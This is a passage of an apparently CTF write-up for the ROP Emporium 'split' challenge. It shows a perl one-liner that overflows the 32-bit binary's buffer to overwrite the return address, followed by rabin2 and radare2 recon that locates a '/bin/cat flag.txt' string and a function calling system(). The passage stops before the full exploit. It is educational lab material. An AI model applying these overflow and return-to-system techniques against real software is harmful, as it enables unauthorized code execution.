







# split
The challenge is available [here](https://ropemporium.com/challenge/split.html).

## Black-Box Test
Just like in the previous challenge, let's start by running the `split32` program with simple input, such as `ABCD`.

```
./split32
```


Similarly, the return value we want to overwrite is located at the same index as in the previous challenge.

```
perl -e 'print "A"x44 . "\xfe\xbe\xad\xde"' | ./split32
```

```
sudo dmesg -k | tail -2
```


## Finding important details
As you might have guessed, this challenge also has NX protection enabled.

```
rabin2 -I split32 | grep nx
```


Therefore, we will proceed as in the previous challenge and try to find a function that can help us.

```
rabin2 -qs split32 | grep -ve 'imp' -e ' 0 ' -e '_'
```


In fact, the command displays symbols, some of which may be functions, but not only. At this stage, we've found two interesting symbols: `usefulFunction` and `usefulString`. From their names, we can infer what they contain. Let's first check `usefulString`. If it is indeed a string, we can also find it by searching for interesting strings and identify it by its address.

```
rabin2 -z split32
```


As can be seen, the string called `usefulString` is located at address `0x0804a030`, and its content is `/bin/cat flag.txt`.

If we can send this string to the `system()` function, we win. Keeping that in mind, let's check the `usefulFunction`.

```
r2 split32
```
```
aa
```
```
afl
```

```
pdf @ sym.usefulFunction
```


